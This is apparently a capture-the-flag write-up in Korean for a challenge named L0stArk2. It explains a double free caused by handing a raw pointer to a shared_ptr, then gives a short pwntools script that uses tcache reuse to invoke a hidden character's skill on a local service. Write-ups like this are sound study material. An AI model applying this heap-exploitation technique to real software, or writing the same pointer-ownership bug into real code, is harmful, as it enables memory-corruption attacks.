 # L0stArk2

## 취약점
L0stArk에서 캐릭터를 hold하는 vector가 unique_ptr에서 shared_ptr로 변경되어 캐릭터 삭제시 skill을 nullify 해주는 destructor가 불리게 되었다.

그러나 캐릭터 선택시 shared_ptr에 raw pointer를 넣어주어 후에 캐릭터 삭제시 double free가 일어나는 취약점이 발생했다.

캐릭터 인스턴스 생성시 tcache가 사용된다.
캐릭터 생성, 선택, 삭제로 tcache double free를 일으키고 hidden 캐릭터와 다른 캐릭터를 차례로 생성하면 후에 생성한 인스턴스로 hidden 캐릭터의 스킬을 사용할 수 있다.

## exploit
```python
from pwn import *

p = remote("localhost", 31679)

def create(no, name=None):
  p.sendlineafter("pick: ", "1")
  p.sendlineafter("pick: ", str(no))
  if name:
    p.sendlineafter("name: ", name)

def choose(no):
  p.sendlineafter("pick: ", "4")
  p.sendlineafter("pick: ", str(no))

def destroy(no):
  p.sendlineafter("pick: ", "2")
  p.sendlineafter("pick: ", "0")

def useskill():
  p.sendlineafter("pick: ", "6")


create(1, "A")
choose(0)
destroy(0)
create(7)
create(1, "B")
choose(0)
useskill()

p.interactive()
```

